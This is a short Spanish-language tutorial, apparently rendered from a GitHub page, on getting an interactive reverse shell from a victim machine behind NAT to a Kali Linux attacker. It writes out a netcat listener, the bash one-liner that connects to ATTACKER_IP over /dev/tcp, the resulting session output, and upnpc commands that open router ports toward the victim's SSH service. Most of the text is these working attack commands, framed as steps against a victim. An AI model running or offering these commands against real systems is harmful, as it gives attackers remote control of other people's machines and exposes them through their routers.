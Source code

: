 #### 🎯 Objetivo:

Conectarse desde Kali a una shell en la máquina víctima **aunque esté detrás de NAT**, usando una **reverse shell**.

---

##### 👣 Paso 1: En Kali (atacante) – escuchar

Abrimos un puerto para que la víctima se conecte:

```bash
nc -lvnp 4444
```

Esto crea un "listener" que espera conexiones entrantes en el puerto 4444.

---

##### 👣 Paso 2: En la víctima – ejecutar reverse shell

Ejecutamos desde la máquina detrás del NAT:

```bash
bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1
```

Reemplaza `ATTACKER_IP` por la IP pública o local de la Kali Linux.

Este comando le dice a la máquina víctima que se **conecte hacia el atacante**, y redireccione su terminal (shell) a través del canal TCP.

---

### ✅ Resultado

Desde Kali verás aparecer una sesión:

```
connect to [your.ip] from (victim.ip) 12345
```

Ahora tienes una **shell interactiva de la víctima**, aunque estaba **protegida detrás de NAT**.

---

### 🎯 Alternativa: UPnP Attack (puede habilitar NAT bypass)

Algunos routers permiten, mediante **UPnP**, abrir puertos sin autenticar. Puedes probar desde Kali:

```bash
upnpc -l          # Lista puertos abiertos
upnpc -a 192.168.1.10 22 2222 TCP   # Redirige puerto 2222 del router al puerto 22 de la víctima
```

⚠️ Esto depende del router, pero **UPnP mal configurado es una gran puerta trasera**.

---
